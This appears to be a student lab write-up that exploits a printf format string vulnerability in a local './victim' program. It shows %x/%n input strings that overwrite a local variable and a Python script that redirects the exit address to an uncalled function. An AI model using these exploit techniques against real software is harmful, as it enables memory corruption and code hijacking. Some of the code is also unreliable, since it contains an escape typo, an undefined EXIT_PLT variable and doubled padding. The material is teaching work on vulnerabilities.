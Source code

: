 # Problem II

This writeup describes solve problem 2.

Mainly used printf() format string vunerability to exploit the problem.


# Problem 1: Overwrite a local variable.

The main idea behind using printf() exploit is that, printf() is defined as a function of variable length arguments.

we can use ```'%x'``` to print the contents of the stack immediately on top printf(). We can also use ```'%n'``` to write the number of bytes into a stack.

If we want to overwrite a local variable, we would need to find the address of that local variable. Then we can use a python input like,
```
setarch `arch` -R ./victim "`python -c "print 'AAAA '+'%x '*100"`"

```
Using this input format, we can see where in the stack the values ```41414141 25207825 20782520 78252078 25207825 20782520 78252078 25207825``` are. Here ```0x41414141``` represents ```AAAA``` and ```0x782520``` repeating pattern represents ```'%x '```.

With that information in mind, we need to figure out the necessary padding. Because lengths of 64bit memeory address are 64bit long. Although the variable memory address might be like ```0x7fffffffd9e4```. Here the memory address is missing 2 leading 0s. We use little-endian format to pad the memory address.
```\xe4\d9\xff\xff\xff\xff\x00\x00```.

We can use
``` 
setarch `arch` -R ./victim "`python -c "print 'AAAA '+'\xe4\d9\xff\xff\xff\xff\x00\x00'+'%x '*100+'%n '"`"

```
to set the number of bytes and modify the value.

# Problem 2 : Modify the retun address

If we want to call a function that is not being called in the main function, first we can use in gdb ```disas outsideFunc``` to get the the starting address of the outside function.
Then, we can use ```disas main``` to get the exit function address of the ```main function```. 

We can then use python program, that we can use to build the exploit string.
```

import struct

outsideFunctionAddress = 0x5555555551a9
EXIT_Address= 0x555555601040

def pad(s):
    return s+"X"*(512-len(s)-16)
exploit=""
exploit += "BBBBCCCC"
exploit += "%{}x".format(0x676-len(exploit))
exploit += "%68$hn"
exploit = pad(exploit)
exploit += struct.pack("Q", EXIT_PLT)
exploit += struct.pack("Q", EXIT_PLT+2)

print pad(exploit)

```
If we feed this output string to the code it would replace the exit address function with the outsideFunctionAddress.

